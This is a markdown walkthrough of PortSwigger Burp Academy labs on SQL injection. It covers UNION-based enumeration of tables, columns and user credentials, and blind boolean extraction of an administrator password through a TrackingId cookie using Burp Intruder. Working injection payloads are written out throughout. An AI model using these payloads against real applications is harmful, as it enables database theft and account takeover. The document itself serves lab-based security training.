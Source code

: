 ```yaml
---
description: A walkthrough of one of the Burp Academy Labs
---
```


# SQLi Walkthrough

{% hint style="info" %}
One thing to note that is not explained here is the process to identify which DBMS is being used, MSSQL, MySQL, Oracle etc... This is usually carried out first when finding out the injection point by using different comments and verbose error messages, nmap scans.
{% endhint %}

## SQL UNION SELECT

When we enter the room are presented with a web page:

![](../.gitbook/assets/image%20%2823%29.png)

### Injection Point

From here we search for our parameter that is injectable, clicking on one of the product categories we find an injection point:

![&quot;category=gifts&quot; is our injection point](../.gitbook/assets/image%20%2821%29.png)

### Counting Columns

First we need to craft a statement that will identify how many columns are in the table:

```text
' ORDER BY 1,2--
```

![](../.gitbook/assets/image%20%288%29.png)

The page loads with 2, and errors at 3, so there are 2 columns we have discovered. we can double check this with the following:

```text
' UNION SELECT NULL,NULL--
```

![](../.gitbook/assets/image%20%2830%29.png)

### Strings?

Next we have to discover if any of these columns can take a string value, we can add 'a' in place of the null to test this:

![](../.gitbook/assets/image%20%2811%29.png)

![](../.gitbook/assets/image%20%2827%29.png)

### Find Table Names

Next we should discover which tables are located within the database.

```text
' UNION SELECT table_name,NULL FROM information_schema.tables--
```

![](../.gitbook/assets/image%20%2817%29.png)

From the list displayed we can find any interesting tables:

![](../.gitbook/assets/image%20%2825%29.png)

### Find Column Names

We now need to discover which columns are within this table, using the following:

```text
' UNION SELECT column_name,NULL FROM information_schema.columns WHERE table_name='users_uiykfb'--
```

![](../.gitbook/assets/image%20%2822%29.png)

### Sweet Sweet Data

Now we have the column names we can get the data!

```text
' UNION SELECT username_kwdcsh,password_possgi FROM users_uiykfb--
```

![](../.gitbook/assets/image%20%2812%29.png)

## Blind SQL - Conditional Responses

Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is `TrackingId=xyz`

![](../.gitbook/assets/image%20%2829%29.png)

### Find True

Modify the `TrackingId` cookie, changing it to: `TrackingId=xyz' AND '1'='1`. Verify that the "Welcome back" message appears in the response. 

![](../.gitbook/assets/image%20%285%29.png)

![Welcome Back appears](../.gitbook/assets/image%20%286%29.png)

### Find False

Now change it to: `TrackingId=xyz' AND '1'='2` Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

![](../.gitbook/assets/image%20%2813%29.png)

![](../.gitbook/assets/image%20%2832%29.png)

### Check Table Exists

Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a` Verify that the condition is true \(welcome back message should appear\), confirming that there is a table called users. 

![](../.gitbook/assets/image%20%289%29.png)

### Check User Exists

Now change it to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a` Verify that the condition is true, confirming that there is a user called administrator. 

![](../.gitbook/assets/image%20%2814%29.png)

### Find length of password

The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`. This condition should be true, confirming that the password is greater than 1 character in length. 

![](../.gitbook/assets/image%20%2819%29.png)

Send a series of follow-up values to test different password lengths. Send: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a`. Then send: `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a`. And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true \(i.e. when the "Welcome back" message disappears\), you have determined the length of the password.

![](../.gitbook/assets/image%20%2826%29.png)

![](../.gitbook/assets/image%20%287%29.png)

### Determine character in each position.

After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

 In the Positions tab of Burp Intruder, clear the default payload positions by clicking the "Clear §" button. 

In the Positions tab, change the value of the cookie to: `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a.` This uses the SUBSTRING\(\) function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value \(note the payload position markers\): TrackingId=xyz' AND \(SELECT SUBSTRING\(password,1,1\) FROM users WHERE username='administrator'\)='§a§ 

![](../.gitbook/assets/image%20%2818%29.png)

To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. . Go to the Payloads tab, check that "Simple list" is selected, and under "Payload Options" add the payloads in the range a - z and 0 - 9. 

![](../.gitbook/assets/image%20%2824%29.png)

To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Options tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back".

![](../.gitbook/assets/image%20%2816%29.png)

 Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu. 

Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.

![](../.gitbook/assets/image%20%2820%29.png)

Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value: TrackingId=xyz' AND \(SELECT SUBSTRING\(password,2,1\) FROM users WHERE username='administrator'\)='a

Launch the modified attack, review the results, and note the character at the second offset. 

Continue this process testing offset 3, 4, and so on, until you have the whole password. 

It is possible to use 2 payloads and a cluster bomb attack to test all combinations at once.

![](../.gitbook/assets/image%20%2831%29.png)

